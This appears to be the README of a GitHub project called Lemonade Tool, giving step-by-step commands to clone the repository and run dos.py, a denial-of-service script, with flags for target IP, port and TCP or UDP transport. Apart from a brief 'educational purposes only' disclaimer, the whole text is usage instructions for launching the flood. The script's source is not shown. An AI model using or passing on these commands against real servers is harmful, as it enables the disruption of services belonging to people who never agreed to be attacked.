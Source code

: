 # TUTORIAL

first of all this tool is for educational purposes  only!
> i suggest you to don't use it on a stranger's website or servers and use it on your servers or server you got premission to attack.
## cloning repo:

first thing you need to do is is cloning my tool!
you can type 
"git clone https://github.com/Pastlecry/Lemonade-Tool/"
for it

# How to attack:

#DoS:
first of all go to Lemonade Tool's dictionary by typing
cd Lemonade-Tool
than you need to run the python script by typing
python dos.py
you can get help by typing this in console
python dos.py --h
now what you need to set in attack setup?
let me show you

first you need to set your Attack's Trget IP:
"python dos.py --T [Target website or server's ip]" for example "python dos.py --T 127.0.0.1"

then you need to insert port that you want to attack with:
"python dos.py --P [Port that you want to connect to the server with it(default=80)]" for example "python dos.py --P 80"

after that you need to set Transport Protocol you want to attack with it:
"python dos.py --O [Transport Protocol{UDP, TCP} (default=UDP]" for example "python dos.py --O TCP"

for a quick attack, all you need to do is just inserting Target IP
"python dos.py --T 127.0.0.1"

but for an attack fully customized you can type:
"python dos.py --T 127.0.0.1 --P 80 --O TCP"
